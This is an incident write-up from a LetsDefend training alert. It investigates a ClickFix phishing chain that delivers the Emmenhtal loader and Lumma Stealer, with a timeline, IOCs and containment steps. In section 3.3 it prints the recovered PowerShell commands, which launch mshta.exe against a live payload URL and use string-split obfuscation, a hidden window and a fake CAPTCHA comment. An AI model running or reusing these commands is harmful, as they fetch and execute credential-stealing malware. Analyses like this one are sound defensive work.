# SOC338 — Lumma Stealer: DLL Side-Loading via Click Fix Phishing

**Platform:** LetsDefend
**Alert ID:** SOC338
**Severity:** Critical
**Category:** Data Leakage

---

## About Lumma Stealer

**Lumma Stealer (aka LummaC2)** is an infostealer sold under a **malware-as-a-service (MaaS)** model — the developer rents access to the tool to other criminal affiliates rather than deploying it directly. Written in C++/ASM and targeting Windows, it steals credentials and sensitive data from web browsers, crypto wallets, and chat applications, along with local user files. It has become one of the most widely distributed infostealers in the current threat landscape, frequently delivered through fake CAPTCHA/verification pages using a technique known as **ClickFix**.

**ClickFix** does not rely on an exploit — it relies on tricking the user into infecting their own machine. The victim lands on a fake CAPTCHA or "verification" page, which silently copies a malicious command to their clipboard via an embedded script, then instructs the user to open the Windows Run dialog (or execute it via a prompted script) and paste/run the command themselves. Because the code is executed manually by the user through legitimate Windows tools (mshta.exe, PowerShell) rather than downloaded and run automatically, it evades many browser- and email-based security controls, which never see an automatic download or exploit occur — only a user running standard system tools.

---

## 1. Alert Summary

User **Dylan (dylan@letsdefend.io / 172.16.17.216)** received a phishing email impersonating a Windows 11 Pro upgrade offer. The embedded link led to a fake "verification" page hosted on a typosquat domain, which triggered a ClickFix-style infection chain: obfuscated PowerShell commands executed `mshta.exe`, which fetched and ran a file disguised with a `.mp4` extension. This file is not a video — it is a script payload (confirmed as text content by VirusTotal) attributed to the **Emmenhtal** loader family, used to deliver Lumma Stealer.

| Field | Value |
|---|---|
| EventID | 316 |
| Alert Time | Mar 13, 2025, 09:44 AM (email delivery) |
| Affected User / Host | Dylan — 172.16.17.216 |
| Sender | update@windows-update.site |
| SMTP Source IP | 132.232.40.201 |
| Subject | "Upgrade your system to Windows 11 Pro for FREE" |
| Phishing Landing Domain | windows-update.site |
| Payload Delivery URL | https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4 |
| Payload File Hash (SHA256) | 15c80b5be235bf2a8c38291eb697a702c07dde087eb459e9ea46a2bee17c5f03 |
| Device Action | Allowed |


*SIEM alert detail — SOC338, EventID 316, "Lumma Stealer - DLL Side-Loading via Click Fix Phishing." Trigger reason: redirected site contains a ClickFix-type script for Lumma Stealer distribution.*

---

## 2. Investigation Timeline

| Time | Event |
|---|---|
| 09:44 AM | Phishing email delivered from update@windows-update.site to Dylan |
| 11:26 PM | Dylan clicks the link, browser history logs visit to windows-update.site |
| 11:26 PM | Proxy log confirms request to https://windows-update.site/, HTTP 200, referrer: mail.letsdefend.io |
| 11:26:19 PM | Obfuscated PowerShell command #1 executed (string-split evasion) |
| 11:26:20 PM | Firewall log — mshta.exe requests https://overcoatpassably.shop/.../maloy.mp4, action Allowed |
| 11:26:31 PM | PowerShell command #2 executed — direct (non-obfuscated) mshta.exe call |
| 11:26:32 PM | Obfuscated PowerShell command #3 executed — repeat of command #1 |

**Dwell time (email → click):** ~13 hours 42 minutes. **Execution to payload retrieval:** effectively immediate (same minute).

---

## 3. Investigation Steps

### 3.1 Phishing Email

*"Upgrade your system to Windows 11 Pro for FREE" — impersonates Microsoft, uses a countdown timer ("Before the action ends: 4 Days 23 Hours 59 Mins") to create urgency, with an "UPDATE NOW" call-to-action button.*

The sender domain `windows-update.site` is a lookalike impersonating Microsoft's legitimate update infrastructure, using a `.site` TLD commonly abused for low-cost, disposable phishing domains.

### 3.2 Confirming the Click

*Proxy log — 172.16.17.216 requested https://windows-update.site/ at 11:26 PM, HTTP 200 OK, Referrer: https://mail.letsdefend.io/ — confirming the click originated from the webmail client.*


*Endpoint security browser history — confirms the visit to windows-update.site at 2025-03-13 23:26:08, corroborating the proxy log.*

### 3.3 ClickFix Execution Chain — Terminal History

*Three PowerShell commands executed within 13 seconds of each other (23:26:19 – 23:26:32).*

Full command sequence recovered:
```powershell
# Command 1 (obfuscated) and Command 3 (repeat):
"C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -w 1 powershell -Command
('ms]]]ht]]]a]]].]]]exe https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4' -replace ']')
# ✅ ''I am not a robot - reCAPTCHA Verification ID: 3824''

# Command 2 (direct execution):
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -Command
"mshta.exe https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4"
```

**Obfuscation technique identified:** The string `'ms]]]ht]]]a]]].]]]exe ...' -replace ']'` splits the command "mshta.exe" with junk characters (`]`) which are stripped at execution time via the `-replace` operator. This is a signature-evasion technique designed to defeat simple string-matching/signature-based detection tools that scan for the literal string "mshta.exe" in command lines.

**Hidden window flag:** The `-w 1` parameter runs the PowerShell window in a minimized/hidden state, so the activity is not visible to the user — consistent with an attack designed to execute silently in the background after the initial ClickFix interaction.

**Fake CAPTCHA comment:** The trailing comment (`# ✅ ''I am not a robot - reCAPTCHA Verification ID: 3824''`) is cosmetic — it serves no functional purpose in the command, and exists purely as part of the social-engineering pretext (making the pasted/executed command look, to a distracted or non-technical viewer, like a legitimate CAPTCHA verification string rather than malicious code).

### 3.4 mshta.exe Execution — Full Process Detail

*Firewall log — mshta.exe (PID 7284) requests https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4, action: Allowed.*


*Full EDR process detail — mshta.exe (PID 7284), parent: powershell.exe, File Hash: 15c80b5be235bf2a8c38291eb697a702c07dde087eb459e9ea46a2bee17c5f03, Process User: EC2AMAZ-ILGVOIN\LetsDefend, Target Process Command Line spawns conhost.exe (`0xffffffff -ForceV1`).*

### 3.5 The ".mp4" File Is Not a Video — Confirmed

*VirusTotal — file `maloy.mp4` flagged malicious by 21/59 vendors. Threat label: **trojan.sagent/emmenhtal**. Threat category: trojan. Family labels: sagent, emmenhtal, htadl.*

**Key finding:** Despite the `.mp4` extension, VirusTotal's own file-type detection classifies this file's **content type as "text"** (visible in the file-type icon and metadata), not video/media. This confirms the extension is cosmetic — the actual file is a script (consistent with an HTA/JScript or VBScript payload, given the `htadl` family label and mshta.exe as the executing process). The `.mp4` name exists purely to:
1. Appear benign to a user glancing at the URL being fetched.
2. Potentially evade simplistic content-filtering controls that make decisions based on file-extension/MIME-type conventions rather than actual content inspection.

The `emmenhtal` family label identifies this specifically as the **Emmenhtal loader**, a script-based loader increasingly used in fake-CAPTCHA/ClickFix campaigns as a first-stage dropper for infostealers including Lumma Stealer.

### 3.6 Threat Intelligence Enrichment

**Phishing landing URL:**

*VirusTotal — windows-update.site flagged malicious/malware by 12/92 vendors.*

**Payload delivery URL:**

*VirusTotal — overcoatpassably.shop/.../maloy.mp4 flagged malicious/malware by 14/92 vendors.*

**SMTP source IP:**

*VirusTotal — 132.232.40.201 (AS45090, Shenzhen Tencent Computer Systems Company Limited, China) flagged malicious by 3/91 vendors.*


*AbuseIPDB — 132.232.40.201 reported 5 times. ISP: Tencent Cloud Computing (Beijing) Co., Ltd.*

All three infrastructure indicators (phishing domain, payload delivery domain, SMTP source IP) are independently confirmed malicious across threat intelligence platforms.

---

## 4. MITRE ATT&CK Mapping

| Tactic | Technique |
|---|---|
| Initial Access | T1566.002 – Phishing: Spearphishing Link |
| Execution | T1204.001 – User Execution: Malicious Link (ClickFix / fake CAPTCHA) |
| Execution | T1059.001 – Command and Scripting Interpreter: PowerShell |
| Execution | T1218.005 – System Binary Proxy Execution: Mshta (LOLBin abuse) |
| Defense Evasion | T1027 – Obfuscated Files or Information (string-split command obfuscation, disguised file extension) |
| Defense Evasion | T1564.003 – Hide Artifacts: Hidden Window (`-w 1`) |
| Credential Access / Collection | T1555 – Credentials from Password Stores *(Lumma Stealer capability)* |

---

## 5. Indicators of Compromise (IOC)

1. Phishing sender `update@windows-update.site`, SMTP source `132.232.40.201`.
2. Phishing landing domain `windows-update.site`.
3. Payload delivery URL `https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4` (disguised script, not a video file).
4. Payload file hash `15c80b5be235bf2a8c38291eb697a702c07dde087eb459e9ea46a2bee17c5f03` — flagged by 21/59 vendors, attributed to the Emmenhtal loader / Lumma Stealer distribution chain.
5. Obfuscated command pattern: string-split "mshta.exe" reference combined with `-replace` and a fake reCAPTCHA comment.
6. Hidden PowerShell execution via `-w 1` flag.

---

## 6. Verdict

> **True Positive — Confirmed successful ClickFix-based Lumma Stealer infection chain.**

**Reasoning:**
- Phishing email from a lookalike Microsoft-update domain, with SMTP source independently confirmed malicious.
- Browser history and proxy logs confirm the user clicked through to the phishing landing page.
- Terminal history confirms execution of obfuscated PowerShell commands matching the known ClickFix pattern (fake CAPTCHA comment, string-split LOLBin obfuscation, hidden window).
- mshta.exe confirmed executing a remote file disguised as a `.mp4`, independently confirmed as a text/script file by VirusTotal and attributed to the Emmenhtal loader family associated with Lumma Stealer.
- All infrastructure (sender IP, landing domain, payload domain, payload hash) independently confirmed malicious.
- Given confirmed execution of an infostealer loader, the host and any credentials stored or entered on it (browser-saved passwords, cookies/session tokens, crypto wallet data) must be considered compromised.

**Severity confirmation:** Alert correctly fired as **Critical** — this assessment is supported by the evidence and should remain unchanged.

---

## 7. Containment & Recommendations

- [ ] Isolate Dylan's host (172.16.17.216) from the network immediately to prevent further C2 communication or data exfiltration.
- [ ] Kill the `mshta.exe` and any related `powershell.exe` processes still active on the host.
- [ ] Force a reset of all credentials that may have been stored in browsers or applications on the affected host — treat all locally stored/cached credentials as compromised.
- [ ] Block domains `windows-update.site` and `overcoatpassably.shop`, and IP `132.232.40.201`, at the email gateway, proxy, and firewall.
- [ ] Block file hash `15c80b5be235bf2a8c38291eb697a702c07dde087eb459e9ea46a2bee17c5f03` across EDR/AV.
- [ ] Search the email security gateway for other recipients of the same phishing campaign (sender: update@windows-update.site).
- [ ] Escalate to the IR team for full forensic investigation and confirmation of successful Lumma Stealer deployment and any subsequent C2/exfiltration activity.
- [ ] Publish an organization-wide awareness bulletin on ClickFix / fake CAPTCHA phishing, specifically warning users never to paste and run commands provided by a website, regardless of the pretext (verification, CAPTCHA, error fix).
- [ ] Consider restricting or monitoring `mshta.exe` execution via application control policy, given its role as a common LOLBin in this attack class.

---

## 8. Closure

**Analyst Submission:** Malicious Activity Detected — Confirmed Lumma Stealer Infection
**Alert Playbook Followed:** Yes
**Escalated:** Yes — escalated to IR team given confirmed infostealer execution and likely full host/credential compromise.

**Closure Note:**
> Dylan received a phishing email impersonating a Windows 11 upgrade, from a malicious sender (132.232.40.201, confirmed on VT/AbuseIPDB). He clicked through to windows-update.site (confirmed malicious), triggering a ClickFix-style infection: obfuscated PowerShell executed mshta.exe, which fetched a payload disguised as maloy.mp4 from overcoatpassably.shop (confirmed malicious). The file is confirmed by VirusTotal to be text/script content, not video, and is attributed to the Emmenhtal loader family associated with Lumma Stealer distribution (21/59 vendors, hash confirmed malicious). Verdict: True Positive — confirmed Critical infostealer infection. Host and all locally stored credentials must be treated as compromised. Recommend immediate isolation, full credential reset, IOC blocklisting, and IR escalation.

---

## Key Takeaways (Lessons for Future Investigations)

- ClickFix/fake-CAPTCHA phishing doesn't rely on an exploit — it relies on the user manually executing attacker-supplied commands via legitimate tools (mshta.exe, PowerShell). Recognizing this pattern (a "verification" page followed by a copy/paste-and-run instruction) is itself a strong detection signal.
- File extensions in a URL are not evidence of file type — always check the actual content type (via VirusTotal or direct inspection) rather than trusting a `.mp4`, `.pdf`, or similar extension at face value, especially when the fetching process is a script interpreter or LOLBin rather than a media player/browser.
- String-obfuscation tricks like splitting a command with junk characters and a `-replace` operator are simple but effective against naive signature matching — always reconstruct and state the de-obfuscated command explicitly in the report.
- A cosmetic comment appended to a malicious command (e.g., a fake CAPTCHA verification string) exists purely for the social-engineering pretext and should be identified as such, not mistaken for a functional part of the payload.
- When a known malware family delivery chain is suspected, briefly research and include background on that family/technique in the report — it demonstrates broader threat understanding beyond just this single incident's IOCs.
